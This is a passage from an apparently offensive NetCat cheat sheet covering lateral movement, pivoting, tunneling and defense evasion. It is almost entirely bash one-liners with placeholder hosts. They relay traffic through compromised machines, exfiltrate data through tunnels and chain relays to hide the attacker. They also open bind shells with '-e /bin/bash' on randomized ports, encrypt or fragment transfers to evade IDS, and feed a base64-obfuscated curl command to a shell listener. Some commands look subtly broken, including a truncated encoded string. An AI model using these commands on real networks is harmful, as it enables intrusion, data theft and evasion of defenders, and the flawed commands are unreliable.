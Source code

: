 #### Lateral Movement, Pivoting, and Tunneling

NetCat facilitates lateral movement, allowing attackers to pivot from one compromised system to another and tunnel traffic through intermediate hosts.

1. **Port Forwarding for Lateral Movement**: Forwards traffic from one machine to another, enabling lateral movement within the network.
    ```bash
    nc -l -p <local_port> -c "nc <target_ip> <target_port>"
    ```
2. **Pivoting Through a Compromised Host**: Tunnels traffic through a compromised host, allowing the attacker to pivot to internal systems.
    ```bash
    mkfifo /tmp/f; nc -l -p <attack_port> < /tmp/f | nc <internal_ip> <internal_port> > /tmp/f
    ```
3. **Tunneling Data Through NetCat**: Creates a tunnel to exfiltrate data from an internal system through an externally facing compromised host.
    ```bash
    nc -l -p <attack_port> -c "nc <internal_ip> <internal_port>"
    ```
4. **Chained Tunneling for Obfuscation**: Chains multiple tunnels to obfuscate the attacker's location and make detection more difficult.
    ```bash
    nc -l -p <local_port1> | nc <intermediate_ip1> <intermediate_port1> | 
    nc <intermediate_ip2> <intermediate_port2> | nc <target_ip> <target_port>
    ```
5. **Reverse Tunneling for Persistent Access**: Establishes a reverse tunnel to maintain access even after the initial compromise.
    ```bash
    ssh -R <remote_port>:localhost:<local_port> user@<remote_host>
    # Then use NetCat to access the tunnel:
    nc -l -p <local_port> -c "nc <remote_host> <remote_port>"
    ```

#### Defense Evasion

NetCat can be used in ways that evade detection by network security devices and analysts, making it a valuable tool for maintaining stealth.

1. **Stealth Scanning**: Avoids DNS resolution and uses a more stealthy approach to scanning.
    ```bash
    nc -zv -n <target_ip> <target_port_range>
    ```
2. **Traffic Obfuscation**: Encrypts data being sent over the network to avoid detection by IDS/IPS.
    ```bash
    openssl enc -aes-256-cbc -salt -in plaintext.txt | nc <target_ip> <target_port>
    ```
3. **Fragmented File Transfer**: Transfers large files in smaller fragments to avoid triggering network security thresholds.
    ```bash
    split -b 1024M <large_file> && for f in x*; do nc -l -p <attack_port> < $f; done
    ```
4. **Using Randomized Ports**: Randomizes the local and remote ports to avoid port-based filtering.
    ```bash
    nc -l -p $(shuf -i 2000-65000 -n 1) -e /bin/bash
    ```
5. **Obfuscated Commands**: Encodes commands to obfuscate them from detection, then decodes and executes them on the target.
    ```bash
    echo "Y3VybCBodHRwOi8vPHRhcmdldF9pcD46PHRhcmdldF9wb3J0Pj8gPiBjdGwuZXh" | base64 -d | nc -l -p <attack_port> -e /bin/bash
    ```
